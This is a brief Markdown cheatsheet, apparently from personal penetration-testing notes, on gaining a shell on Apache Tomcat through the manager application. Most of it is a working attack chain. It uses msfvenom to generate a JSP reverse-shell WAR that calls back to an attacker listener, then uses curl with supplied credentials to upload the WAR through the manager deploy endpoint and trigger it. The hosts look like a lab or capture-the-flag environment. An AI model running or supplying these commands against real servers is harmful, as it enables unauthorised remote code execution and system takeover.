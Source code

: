 ```yaml
---
layout: default
title: Tomcat Server
parent: CHEATSHEETS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Users
Users and permissions are stored in `tomcat-users.xm`. Any users with `manager-gui` or `manage-scripts` have pretty much admin access.

## Permissions
If the user has `manage-scripts` permissions, they are pretty much admin of the manager app, just from the command line. Even if they can't see much UI wise, they can still upload and execute a `.war` file. If the virtual host is set to auto-unpack/update the `.war` file then uploading is enough. Steps:

```
// Create a .war file using Msfvenom.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f war > shell.war

// Upload
curl -u tomcat:'$3cureP4s5w0rd123!' --upload ./shell.war "http://megahosting.htb:8080/manager/text/deploy?path=/shell-test-1234"

// Run.
curl http://10.10.10.194:8080/shell-test-1234/
```

